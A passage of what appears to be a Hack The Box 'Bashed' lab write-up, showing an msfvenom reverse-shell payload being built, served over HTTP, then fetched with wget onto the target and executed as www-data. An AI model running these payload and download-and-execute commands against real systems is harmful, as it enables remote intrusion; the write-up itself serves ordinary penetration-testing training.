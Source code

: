 Generated and hosted a reverse shell from msfvenom:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the reverse shell:

![Pasted image 20210512140348.png](../../zzz_res/attachments/Pasted_image_20210512140348.png)

```bash
www-data@bashed:/tmp# cd /tmp
www-data@bashed:/tmp# wget 10.10.14.24/rs.elf

--2021-05-12 05:08:02-- http://10.10.14.24/rs.elf
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 152 [application/octet-stream]
Saving to: 'rs.elf'

0K 100% 31.0M=0s

2021-05-12 05:08:02 (31.0 MB/s) - 'rs.elf' saved [152/152]

www-data@bashed:/tmp# ls

VMwareDnD
rs.elf
systemd-private-d0dbe26844344198bb074cc7c4de20c1-systemd-timesyncd.service-i9GhUN
vmware-root
www-data@bashed:/tmp# chmod 777 rs.elf
www-data@bashed:/tmp# ./rs.elf
```
